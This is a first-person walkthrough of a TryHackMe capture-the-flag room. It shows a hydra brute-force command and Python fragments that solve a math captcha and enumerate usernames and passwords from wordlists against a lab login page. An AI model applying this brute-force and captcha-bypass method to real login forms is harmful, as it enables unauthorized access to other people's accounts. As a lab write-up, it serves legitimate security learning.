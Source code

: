 
# Capture! CTF from TryHackMe Walkthrough

Welcome! Thanks for checking out my walkthrough. This room was simple to understand, but needed a little bit of custom automation that could potentially take longer than some rooms. I will walkthrough what I did in order to crack the username and password for this website.


## Recon

Included in the room was a zip file which included two text files: `usernames.txt` and `passwords.txt`. This pretty much told me from the start that I would be cracking some usernames and passwords.

When I first saw the login screen on the web application, my assumptions were confirmed.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/1.png?text=First+Pic)

I saw trying to login with wrong credentials left an error at the bottom of the page.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/2.png?text=Second+Pic)

In order to see what was going on under the hood, I opened up Burp Suite and checked out the raw HTTP request. I could see the data sent and what the response was from the server.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/3.png?text=Third+Pic)

With the information I gathered I decided to use [hydra](https://github.com/vanhauser-thc/thc-hydra) to try to crack both usernames and passwords. First trying to crack the usernames, I entered the command:
```bash
hydra -L usernames.txt -p password -t 64 -s 80 10.10.204.24 http-post-form "/login:username=^USER^&password=^PASS^:Error\: The user " 
```
Here I used the `usernames.txt` to enumerate the usernames. After trying this for a few minutes, I noticed that this wasn't returning what I would hope. After troubleshooting hydra and trying to figure out what potential command mistake I made, I looked at the website again only to find that the login page had changed!

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/5.png?text=Fifth+Pic)

A captcha! Uh-oh. I've never dealth with breaking one of these before. After playing around in Brup Suite a while longer, I learned that the captcha from the previous page was the answer for the new login page. So the data needed to post correctly would be `username`, `password`, and `captcha`. In order to crack this login, it seems that I would have to write a custom script.

## Scripting

From what I learned about the web application, I had to create a script that would do the follwoing:

 - [ ]  Load both `usernames.txt` and `passwords.txt` into the program.
 - [ ]  Trigger the captcha.
 - [ ]  Find way to identify the elements in the captcha:
   - [ ]  Opperands
   - [ ]  Opperant
 - [ ]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [ ]  Once username is found, enumerate `passwords.txt`
 - [ ]  Print out correct username and password.

I used these tasks to break about my code into smaller parts. The actual code is available at the top of this page, but you can also access it [here](https://https://github.com/wsmaxcy/capture/capture.py).

 - [X]  Load both `usernames.txt` and `passwords.txt` into the program.
```python
# load list of usernames
def load_users():
	users = list()
	with open("usernames.txt") as f:
		for line in f:
			users.append(line.rstrip('\n'))
	print('[+] Loaded ' + str(len(users)) + ' usernames to attempt.')
	return users

# loads list of passwords
def load_passwords():
	passwords = list()
	with open("passwords.txt") as f:
		for line in f:
			passwords.append(line.rstrip('\n'))
	print('[+] Loaded '+ str(len(passwords)) + ' passwords to attempt.')
	return passwords

```
- [x]  Trigger the captcha.
```python
# sends 10 requests in order start the captcha
for i in range(10):
	data = {
	'username': 'username',
	'password': 'password'
	}
	r = requests.post(url,data=data)
	print("[+] Sent "+ str(i+1) + "/10 requests to trigger captcha.", end = '\r')
```
 - [x]  Find way to identify the elements in the captcha:
   - [x]  Opperands
   - [x]  Opperant
```python
# username and password
person = ''
password = ''

# data used for post request
	length = len(password) -1
	data = {
	'username': username,
	'password': password,
	'captcha': cap
	}

	# Data used to find captcha
	r = requests.post(url,data=data)
	eq = r.text[1839 + length:1847 + length]
	
	# if statement that returns when the page is authenticated
	if eq == '':
		print('[+] Password found: ' + password)
		return -1

	num1 = int(eq[:3])
	num2 = int(eq[6:8])
	opp = eq[4]

    # finding out which operator to use for captcha equasion
	if opp == '+':
		cap = num1 + num2
	elif opp == '-':
		cap = num1 - num2
	else:
		cap = num1 * num2

    return cap
```
 - [x]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [x]  Once username is found, enumerate `passwords.txt`
```python
# iterates through usernames list
for name in users:
	cur = send_request(name, 'password', cur)
	if cur == -1:
		person = person + name
		break;

passwords = load_passwords()

# iterates through password list
for p in passwords:

	cur = last_request(person, p, cur)
	if cur == -1:
		password = password + p
		break
```
- [x]  Print out correct username and password.
```python
# final print of username and password
print('[+] Username: ' + person)
print('[+] Password: ' + password)
```

After a lot of trial and error building the script, it ended up cracking both the username and the password.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/6.png?text=Sixth+Pic)

When I logged on with the information, I got the flag.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/7.png?text=Sixth+Pic)

Thanks for checking out my writeup! It's my first one, so if there are any comments or criticisms, I would love to hear them.


## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.



[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
